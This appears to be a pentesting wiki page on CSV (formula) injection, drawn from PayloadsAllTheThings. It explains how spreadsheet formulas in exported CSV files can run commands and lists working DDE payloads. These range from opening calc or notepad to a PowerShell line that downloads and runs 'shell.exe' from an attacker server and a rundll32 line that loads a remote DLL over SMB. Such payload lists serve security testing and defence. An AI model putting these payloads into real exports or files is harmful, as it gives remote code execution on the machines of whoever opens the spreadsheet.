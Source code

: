 # CSV Injection

## CSV Injection

Many web apps allow users to download items to a CSV file, such as invoice templates or user settings. Many people choose to open the CSV file in Excel, Open Office, or Libre Office. When a web application fails to validate the contents of a CSV file, the contents of a cell or several cells may be executed.

### Exploit

Basic exploit with Dynamic Data Exchange

```text
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

Technical Details of the above payload:

* `cmd` is the name the server can respond to whenever a client is trying to access the server
* `/C` calc is the file name which in our case is the calc\(i.e the calc.exe\)
* `!A0` is the item name that specifies the unit of data that a server can respond to when the client is requesting the data

Any formula can be started with

```text
=
+
–
@
```

Extracted from here:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection\#exploit" %}



